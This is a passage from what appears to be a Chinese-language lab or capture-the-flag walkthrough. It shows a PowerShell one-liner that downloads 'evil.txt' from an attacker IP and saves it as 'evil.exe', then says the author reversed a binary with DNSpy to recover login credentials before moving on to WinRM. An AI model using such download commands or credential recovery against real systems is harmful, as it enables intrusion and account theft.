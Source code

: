 [![](assets/1705974590-8eabea732cdc5ce8eb959c989a2d7574.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223558-644e0b02-b86a-1.png)

```plain
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

使用 DNSpy 逆向之后，获取登录用户名和密码。  
接着进行测试用户

[![](assets/1705974590-3a92bd6515e46a6ed51d38dab970dadd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223606-696284c4-b86a-1.png)

[![](assets/1705974590-87661f01535ce12aad09e7d1488d96e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223614-6dab9a16-b86a-1.png)

## WinRM
